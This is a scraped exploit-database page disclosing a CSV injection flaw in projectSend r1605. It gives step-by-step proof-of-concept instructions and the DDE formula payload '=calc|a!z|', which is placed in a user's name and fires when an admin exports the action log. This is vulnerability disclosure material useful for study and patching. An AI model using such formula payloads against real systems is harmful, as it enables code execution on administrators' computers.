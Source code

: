 ```yaml
---
title: projectSend r1605 - CSV injection Vulnerability exploit
url: https://sploitus.com/exploit?id=1337DAY-ID-38787&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-06-18
fetch_date: 2025-10-04T11:44:58.964947
---
```


# projectSend r1605 - CSV injection Vulnerability exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for projectSend r1605 - CSV injection Vulnerability

2023-06-17 | CVSS 7.1

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=1337DAY-ID-38787
Exploit Title: projectSend r1605 - CSV injection
Version: r1605
Bugs:  CSV Injection
Technology: PHP
Vendor URL: https://www.projectsend.org/
Software Link: https://www.projectsend.org/
Author: Mirabbas Ağalarov
Tested on: Windows

2. Technical Details & POC
========================================
Step 1. login as user
step 2. Go to My Account ( http://localhost/users-edit.php?id=2 )
step 3. Set name as  =calc|a!z|
step 3. If admin Export action-log as CSV  file ,in The computer of admin  occurs csv injection and will open calculator ( http://localhost/actions-log.php )

payload: =calc|a!z|
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)